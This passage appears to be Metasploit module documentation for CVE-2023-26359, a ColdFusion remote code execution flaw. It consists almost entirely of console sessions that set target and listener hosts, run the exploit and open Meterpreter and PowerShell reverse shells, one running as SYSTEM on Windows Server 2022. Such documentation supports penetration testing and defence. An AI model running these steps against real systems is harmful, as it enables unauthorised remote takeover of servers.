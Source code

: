 ```


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set LHOST eth0
LHOST => 172.23.57.124
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set SRVHOST eth0
SRVHOST => 172.23.57.124
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set RHOST 172.23.49.239
RHOST => 172.23.49.239
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > check
[*] 172.23.49.239:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > exploit

[*] Started reverse TCP handler on 172.23.57.124:4444 
[*] Using URL: http://172.23.57.124:8080/
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Sending stage (58851 bytes) to 172.23.49.239
[*] Meterpreter session 1 opened (172.23.57.124:4444 -> 172.23.49.239:49815) at 2023-04-11 14:10:13 +0100
[*] Server stopped.

meterpreter > getuid
Server username: WIN-9SIICLTVVC7$
meterpreter > pwd
C:\ColdFusion2021\cfusion\bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.49.239 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > 
```

### Windows Command (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set LHOST eth0
LHOST => 172.23.9.70
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set RHOST 172.23.13.12
RHOST => 172.23.13.12
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set target 1
target => 1
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set PAYLOAD cmd/windows/powershell_reverse_tcp
PAYLOAD => cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Powershell session session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57546) at 2023-04-06 12:20:27 +0100

PS C:\ColdFusion2021\cfusion\bin> whoami
nt authority\system
PS C:\ColdFusion2021\cfusion\bin> exit

[*] 172.23.13.12 - Powershell session session 1 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > 
```